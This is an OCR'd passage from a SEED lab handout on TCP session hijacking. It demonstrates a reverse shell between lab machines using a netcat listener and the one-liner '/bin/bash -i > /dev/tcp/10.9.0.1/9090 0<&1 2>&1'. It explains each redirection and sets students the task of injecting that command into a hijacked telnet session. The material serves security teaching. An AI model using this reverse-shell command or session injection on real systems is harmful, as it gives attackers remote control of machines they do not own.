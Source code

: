 which runsnetcat(ncfor short), listening on port 9090. The bottom window is the victim machine
10.9.0.5, and we type the reverse shell command. As soon as the reverse shell gets executed, the top
window indicates that we get a shell. This is a reverse shell, i.e., it runs on10.9.0.5.

```
+---------------------------------------------------+
| On 10.9.0.1 (attcker) |
| |
| $ nc -lnv 9090 |
| Listening on 0.0.0.0 9090 |
| Connection received on 10.9.0.5 49382 |
| $ <--+ This shell runs on 10.9.0.5 |
| |
+---------------------------------------------------+
```
+---------------------------------------------------+
| **On 10.9.0.5 (victim)** |
| |
|$ /bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1 |
| |
+---------------------------------------------------+
We provide a brief description on the reverse shell command in the following. Detailed explanation can
be found in the SEED book.

- "/bin/bash -i":istands for interactive, meaning that the shell must be interactive (must provide
    a shell prompt)
- "> /dev/tcp/10.9.0.1/9090": This causes the output (stdout) of the shell to be redirected
    to the tcp connection to10.9.0.1’s port 9090. The outputstdoutis represented by file descriptor
    number 1.
- "0<&1": File descriptor 0 represents the standard input (stdin). This causes thestdinfor the
    shell to be obtained from the tcp connection.
- "2>&1": File descriptor 2 represents standard errorstderr. This causes the error output to be
    redirected to the tcp connection.

In summary,"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<&1 2>&1"starts abashshell,
with its input coming from a tcp connection, and its standard and error outputs being redirected to the same
tcp connection.
In the demo shown above, when thebashshell command is executed on10.9.0.5, it connects back
to thenetcatprocess started on10.9.0.1. This is confirmed via the"Connection received on
10.9.0.5"message displayed bynetcat.


The description above shows how you can set up a reverse shell if you have the access to the target
machine, which is thetelnetserver in our setup, but in this task, you do not have such an access. Your
task is to launch an TCP session hijacking attack on an existingtelnetsession between a user and the
target server. You need to inject your malicious command into the hijacked session, so you can get a reverse
shell on the target server.
